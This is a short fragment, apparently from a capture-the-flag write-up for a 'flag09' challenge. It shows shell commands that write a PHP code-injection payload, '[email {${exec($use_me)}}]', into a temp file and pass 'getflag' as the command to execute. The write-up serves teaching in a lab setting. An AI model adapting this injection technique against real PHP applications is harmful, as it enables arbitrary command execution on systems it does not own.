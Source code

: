 create file at /tmp

$ echo '[email {${exec($use_me)}}]'> /tmp/file.txt
$ ./flag09 /tmp/file.txt getflag

"getflag" passed as the second param, into the $use_me var
